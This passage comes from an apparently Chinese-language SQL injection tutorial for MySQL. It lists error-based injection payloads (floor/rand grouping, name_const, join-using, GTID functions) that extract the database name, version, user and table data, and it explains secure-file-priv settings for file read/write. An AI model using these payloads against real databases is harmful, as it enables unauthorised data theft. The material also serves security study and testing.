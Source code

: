 `Payload`: `union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a`.

### name_const
可以用来获取数据库版本信息, `Payload`: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`.

<div align=center><img src="./images/4.png"></div>

### join using
系统关键词`join`可建立两个表之间的内连接, 通过对想要查询列名的表与其自身建议内连接, 会由于冗余的原因(相同列名存在)而发生错误. 并且报错信息会存在重复的列名, 可以使用`using`表达式声明内连接(inner join)条件来避免报错.

```sql
select * from(select * from users a join (select * from users)b)c;
select * from(select * from users a join (select * from users)b using(username))c;
select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID 相关函数
该`Trick`适用`MySQL`的版本为`5.6.x`, `5.7.x`, `8.x`, 利用参数格式不正确来进行报错注入.

```sql
select gtid_subset(user(),1);
select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
select gtid_subtract((select * from(select user())a),1);
```
## 文件读写
上文在对文件读写内容进行讲解时提到了, `file_priv`是对于用户的文件读写权限, 若无权限则不能进行文件读写操作. `secure-file-priv`是一个系统变量, 对于文件读/写功能进行限制, 具体如下:
 - 无内容, 表示无限制.
 - 为`NULL`, 表示禁止文件读/写.
 - 为目录名, 表示仅允许对特定目录的文件进行读/写.

`MySQL 5.5.53`本身及之后版本`secure-file-priv`的默认值为`NULL`, 之前的版本为无内容, 三种方法查看当前`secure-file-priv`的值:

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

修改`secure-file-priv`的方式有如下两种:
 - 通过修改`my.ini`文件, 添加`secure-file-priv=xxxx`.
 - 启动项添加参数`mysqld.exe --secure-file-priv=xxxx`.


### 低权限读取文件
`MySQL 5.5.53`版本中, `secure-file-priv=NULL`读文件`Payload`如下:
